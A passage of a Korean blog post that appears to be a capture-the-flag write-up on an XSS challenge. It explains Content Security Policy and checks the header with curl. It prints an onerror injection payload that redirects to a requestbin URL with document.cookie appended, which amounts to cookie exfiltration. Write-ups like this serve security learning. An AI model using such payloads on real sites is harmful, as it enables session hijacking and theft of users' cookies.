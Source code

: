 위는 11번 문제의 풀이다. 그래서 위의 소스를 그대로 넣었더니 이렇게 이미지 없음이 뜬다.
![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_20.png)

이미지라고 하니까 xss game의 2번문제 `<img src =" " onerror="">`로 푼 문제가 생각나서 onerror를 넣어보았다.

```
?q=qwe%22%20onerror=%22javascript:location.href=%27http://requestbin.fullcontact.com/15j27ri1?a=%27%2Bdocument.cookie
```

이렇게 넣으니까 안된다!! 왜 안되냐!!! 왜!!!!!

근데 `head`에 `csp`가 걸려있어서 그걸 우회해야 하는 문제더라고요.

csp가 무엇이냐고여? content security policy의 약자인데요.
브라우저에 XSS와 관련된 공격을 막아주는 헤더에요.
**브라우저는 기본적으로 페이지에서 요청하는 모든 코드를 다운로드하여 실행하는데, csp를 설정함으로써 브라우저에 어떠한 조건의 리소스만 실행하거나 렌더링하라고 지시를 내릴 수 있게 되는거죠!!!**

그래서 이걸 듣고 눈으로 보고 싶어서 브라우저상에서 열심히 찾았죠!


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_11.png)

근데 여기서 못찾는거더라고요…

두가지 방법이 있는데요.

```
root@ubuntu:/var/www/html# curl -v http://a4f51941335441be0fdb21c2890ec17b1d0f08f0.knock.xss.moe/?q=XSS
*   Trying 133.130.88.37...
* Connected to a4f51941335441be0fdb21c2890ec17b1d0f08f0.knock.xss.moe (133.130.88.37) port 80 (#0)
> GET /?q=XSS HTTP/1.1
> Host: a4f51941335441be0fdb21c2890ec17b1d0f08f0.knock.xss.moe
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx
< Date: Mon, 23 Jul 2018 12:54:26 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-XSS-Protection: 0
< Content-Security-Policy: script-src 'self' 'unsafe-inline'; frame-src 'self'
< 
* Connection #0 to host a4f51941335441be0fdb21c2890ec17b1d0f08f0.knock.xss.moe left intact
<iframe src="XSS"></iframe>
```

이렇게 `curl -v`로 확인하는 방법이랑

[csp evaluator](https://csp-evaluator.withgoogle.com/)사이트에서 검색하면 어떤 csp가 걸려있는지 확인할 수 있습니다.


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_10.png)
